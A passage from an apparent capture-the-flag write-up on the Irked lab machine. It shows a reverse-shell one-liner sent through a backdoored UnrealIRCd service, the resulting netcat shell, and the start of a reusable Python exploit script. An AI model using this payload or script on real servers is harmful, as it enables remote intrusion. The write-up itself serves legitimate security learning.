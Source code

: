     root@kali# tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    07:53:38.650512 IP 10.10.10.117 > 10.10.14.14: ICMP echo request, id 3472, seq 1, length 64
    07:53:38.650548 IP 10.10.14.14 > 10.10.10.117: ICMP echo reply, id 3472, seq 1, length 64
    

### Shell

Now I can use this to get a shell:

    AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.14 443 >/tmp/f
    

    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.117.
    Ncat: Connection from 10.10.10.117:40718.
    bash: cannot set terminal process group (634): Inappropriate ioctl for device
    bash: no job control in this shell
    ircd@irked:~/Unreal3.2$ id
    id
    uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
    

### Script It

This was a simple enough exploit, and I wanted a python implementation, so I wrote one. I had particular fun using to start my listener and catch the shell callback. This script will be on my gitlab page, [ctfscripts](https://gitlab.com/0xdf/ctfscripts) as well (though not under Irked, as it’s not specific to this machine, but any running this backdoored version of Unreal).`subprocess``nc`

      1 #!/usr/bin/env python3
      2 
      3 import socket
      4 import subprocess
      5 import sys
      6 
      7 if len(sys.argv) != 5:
      8     print(f"Usage: {sys.argv[0]} [target_ip] [target_port] [callback ip] [callback port]")
      9     sys.exit()
     10 
     11 rhost, rport, lhost, lport = sys.argv[1:]
     12 
     13 print(f"[*] Connecting to {rhost}:{rport}")
     14 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
     15 try:
     16     s.connect((rhost, int(rport)))
     17 except:
     18     print(f"[-] Failed to connect to {rhost}:{rport}")
     19     sys.exit(1)
     20 s.recv(100)
     21 
     22 print("[*] Sending payload")
     23 s.send(f"AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc {lhost} {lport} >/tmp/f\n".encode())
     24 s.close()
     25 print("[+] Payload sent. Closing socket.")
     26 
     27 print("[*] Opening listener. Callback should come within a minute")
     28 try:
     29     ncsh = subprocess.Popen(f"nc -nl {lhost} {lport}", shell=True)
     30     ncsh.poll()
     31     ncsh.wait()
     32 except: